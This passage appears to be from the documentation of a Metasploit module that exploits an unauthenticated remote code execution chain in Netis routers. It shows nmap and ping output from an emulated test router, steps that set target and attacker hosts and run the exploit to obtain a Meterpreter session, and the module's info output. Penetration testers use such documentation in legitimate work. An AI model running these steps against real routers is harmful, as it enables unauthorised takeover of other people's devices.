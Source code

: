 ```shell
^C
--- 192.168.1.254 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms
rtt min/avg/max/mdev = 1.297/5.979/11.713/4.316 ms
 # nmap 192.168.1.1
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-29 19:39 UTC
Nmap scan report for 192.168.1.254
Host is up (0.020s latency).
Not shown: 996 closed tcp ports (reset)
PORT    STATE SERVICE
22/tcp  open  ssh
53/tcp  open  domain
80/tcp  open  http
443/tcp open  https
MAC Address: 00:E0:4C:81:96:C1 (Realtek Semiconductor)

Nmap done: 1 IP address (1 host up) scanned in 1.19 seconds
```
You are now ready to test the module using the emulated router hardware on IP address 192.168.1.254

## Verification Steps
- [x] Start `msfconsole`
- [x] `use exploit/linux/http/netis_unauth_rce_cve_2024_48456_and_48457`
- [x] `set rhosts <ip-target>`
- [x] `set lhost <ip-attacker>`
- [x] `set target <0=Linux Dropper>`
- [x] `exploit`

you should get a `Meterpreter` session.

```msf
msf6 exploit(linux/http/netis_unauth_rce_cve_2024_48456_and_48457) > info

       Name: Netis Router Exploit Chain Reactor (CVE-2024-48455, CVE-2024-48456 and CVE-2024-48457).
     Module: exploit/linux/http/netis_unauth_rce_cve_2024_48456_and_48457
   Platform: Linux
       Arch: mipsle
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2024-12-27

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Linux Dropper

Check supported:
  Yes
```